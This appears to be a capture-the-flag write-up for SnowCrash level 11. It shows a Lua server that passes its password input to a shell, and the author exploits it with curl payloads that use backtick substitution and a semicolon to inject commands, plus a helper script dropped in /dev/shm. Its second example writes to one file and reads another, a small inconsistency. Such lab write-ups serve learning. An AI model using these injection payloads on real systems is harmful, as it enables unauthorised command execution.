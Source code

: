 # SnowCrash Level11

Let's go ahead and cat that level11.lua :
```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

At first I satrted thinking of a way to decrypt that hash in order to give it as a Password.
But even if I did give it nothing would eventually happen.
Still I followed this idea. And then I realized it was a rabbit hole.
After that, I started executing the code online line by line.
I found out that whatever I pass in the password is gonna be used in the following line :
```
prog = io.popen("echo "...pass..." | sha1sum", "r")
```

It's like an RCE(remote code execution).
/tmp doesn't have the right permissions.
let's look arround for a bit to find a folder that has the write permissions for public.
Using this command :
```
level11@SnowCrash:~$ find / -writable 2>/dev/null | grep -v proc
/dev/vboxuser
/dev/log
/dev/shm
/dev/char/10:56
/dev/char/5:0
/dev/char/5:2
/dev/char/10:200
/dev/char/10:229
/dev/char/1:5
/dev/char/1:9
/dev/char/1:8
/dev/char/1:3
/dev/char/1:7
/dev/stderr
/dev/stdout
/dev/stdin
/dev/fd
/dev/pts/0
/dev/net/tun
/dev/ptmx
/dev/fuse
/dev/tty
/dev/urandom
/dev/random
/dev/full
/dev/zero
/dev/null
/run/acpid.socket
/run/dbus/system_bus_socket
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/lock
/var/tmp
/rofs/dev/urandom
/rofs/var/lock
```

Can't use the first 2 so I used the 3rd one.
```
level11@SnowCrash:~$ cat /dev/shm/EXPLOIT
#!/bin/sh

getflag > /tmp/flaghh
```

Then :
```
level11@SnowCrash:~$ curl 'localhost:5151/?Password=`/*/*/EXPLOIT`'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flaghh
Check flag.Here is your token : 
```

Alternative way to solve this challenge is simply a command injection in the pass variable, like the one before.
Instead of searching for folders with right permissions just print flag.
```
level11@SnowCrash:~$ curl 'localhost:5151/?Password=";getflag > /tmp/token"'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flaghh
Check flag.Here is your token :
```